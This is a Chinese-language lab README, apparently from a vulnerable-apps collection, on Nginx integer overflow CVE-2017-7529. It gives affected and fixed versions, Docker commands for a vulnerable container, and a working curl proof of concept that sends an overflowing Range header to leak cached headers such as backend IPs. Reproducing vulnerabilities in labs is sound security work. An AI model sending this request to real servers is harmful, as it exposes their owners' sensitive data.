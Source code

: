 ## Nginx整数溢出漏洞 CVE-2017-7529

### 漏洞信息

当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

参考：[【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)

### 漏洞影响

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。

通过我们的分析判定该漏洞利用难度低可以归属于low-hanging-fruit的漏洞在真实网络攻击中也有一定利用价值。

#### 影响版本

Nginx version 0.5.6 - 1.13.2

#### 修复版本

Nginx version 1.13.3, 1.12.1

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1. 访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：

```
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
```
看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2. 请求时设置 range 如下：

```
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
```

看到结果：

![](./poc.png)

### 参考链接

* [【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)
* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
